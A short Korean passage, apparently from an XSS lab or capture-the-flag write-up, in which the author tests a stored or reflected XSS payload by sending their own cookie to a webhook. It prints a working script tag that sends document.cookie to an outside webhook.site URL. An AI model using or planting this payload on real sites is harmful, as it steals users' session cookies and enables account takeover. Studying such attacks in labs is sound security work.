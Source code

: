 **우선, 페이로드가 정상적으로 동작하는지 확인하기 위해 본인의 쿠키 값을 webhook을 통해 전송하는 테스트를 진행하였다.**

![xss4 payload](./screenshots/xss4_payload.png)

```html
<SCRIPT>new Image().src="https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01?cookie="+document.cookie</SCRIPT>
```

- 위와 같이 페이로드를 작성한 후, 해당 URL에 직접 접근하여 스크립트 실행 여부를 확인하였다.
